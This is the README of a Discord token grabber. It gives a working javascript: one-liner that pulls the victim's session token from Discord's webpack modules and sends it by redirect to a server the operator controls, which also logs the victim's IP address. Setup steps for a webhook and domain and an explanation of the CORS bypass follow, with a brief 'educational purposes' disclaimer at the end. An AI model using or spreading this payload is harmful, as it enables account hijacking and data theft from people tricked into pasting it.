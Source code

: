 
# Discord Web Grabber
This app grabs the ip address and the token of a discord user, if they execute ```javascript: window.location.href = `http://localhost:3000/?token=${(webpackChunkdiscord_app.push([[''], {}, e => { m = []; for (let c in e.c) m.push(e.c[c]) }]), m).find(m => m?.exports?.default?.getToken !== void 0).exports.default.getToken()}``` in their searchbar. 
## How to use?

- Simply import github.com/cobs0n/discord-web-grabber
- Add your discord webhook token
- Change http://localhost:3000 in the example to your domain

## How does it work?
<img src="https://github.com/cobs0n/discord-web-grabber/blob/main/test2.gif"> </img>

Since discord already expects users to abuse injected javascript, doing post requests or referencing remote files is blocked by CORS. To bypass this, my script shortly redirects user to the site with the token attached and then brings back user back to discord making it seem like a simple refresh. The local storage method used by token grabbers before seems to be patched, so I used alternative way using webpack. 

## Usage
I made this repositry merely to show how a redirect can be abused. I do not condone any usage other than for educational purposes, anything you do with this repositry is on your own account.
